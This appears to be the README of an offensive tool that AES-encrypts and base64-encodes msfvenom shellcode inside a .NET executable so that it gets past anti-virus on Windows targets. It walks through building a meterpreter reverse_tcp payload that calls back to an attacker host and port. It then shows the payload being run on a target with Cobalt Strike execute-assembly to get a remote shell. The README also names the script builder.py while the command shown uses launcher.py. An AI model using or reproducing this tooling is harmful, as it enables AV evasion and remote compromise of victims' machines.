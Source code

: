 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box:
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

The .cs files are provided as a reference.
Tested with x86 windows/meterpreter/reverse_tcp
